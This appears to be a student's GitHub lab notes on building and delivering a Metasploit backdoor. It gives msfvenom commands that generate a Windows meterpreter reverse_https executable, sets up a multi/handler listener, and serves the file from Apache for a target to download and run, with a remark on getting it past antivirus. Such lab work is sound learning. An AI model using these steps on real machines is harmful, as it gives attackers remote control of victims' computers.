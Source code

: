 # Client Side Protection  

## Objective

Finding backdoors and payloads in the client side for protection

### Skills Learned

- Installing Metasploitable on a Mac (silicon)

  

### Tools Used

- Metasploitable
- Zenmap
- metasploit
- Msfvenom
  

### Steps for Client side vulnerabilities (Msfvenom)

- We can check all the payloads that msfvenom has
```bash
msfvenom --list payloads
```
- We can see the list of the payloads, the first part is the name, the second part is the description. (Platform/type/communication) thats the naming of the payloads. The communication is broken into direction and protocol.
- We can now check a payload and check its options
  
```bash
msfvenom --payload windows/meterpreter/reverse_https --list-options
```

- We can change te basic options, LHOST is our computer and LPORT is the port we want to listen on. We can change the values and choose a file format and name for the payload we want to create.
  
```bash
msfvenom --payload windows/meterpreter/reverse_https LHOST=192.168.233.134 LPORT=8080 --format exe --out reverse_https_8080.exe
```

- Now we will test the backdoor, we need to turn on Metasploit **msfconsole**.
- We then use the module to open a port on our computer.
```bash
use exploit/multi/handler
```

- We can change the payload to our own payload and the module options should change
```bash
set PAYLOAD windows/meterpreter/reverse_https
```
- We change the LHOST and LPORT to match the payload we made.
- We then start the module with **Exploit**

### Steps to deliver the payload to a target 

- We to go the default path of web server for Kali linux, var/www/html.
- We can create a folder (directory) and put the payload file we made.
- We start the web server from Kali
```bash
service apache2 start
```
- We can open the web server at the target machine by typing the IP address of the Kali in the target's browser.
- We can navigate to our directory. IP-address/name-of-div
- We then dowmload the file and install it ( need to download Avast to get the file to not be deleted and run as Admin)
- The promt of Kali will be **meterpreter>** which means our backdoor is installed. We can type **sysinfo** to find the OS of the target machine.
- 









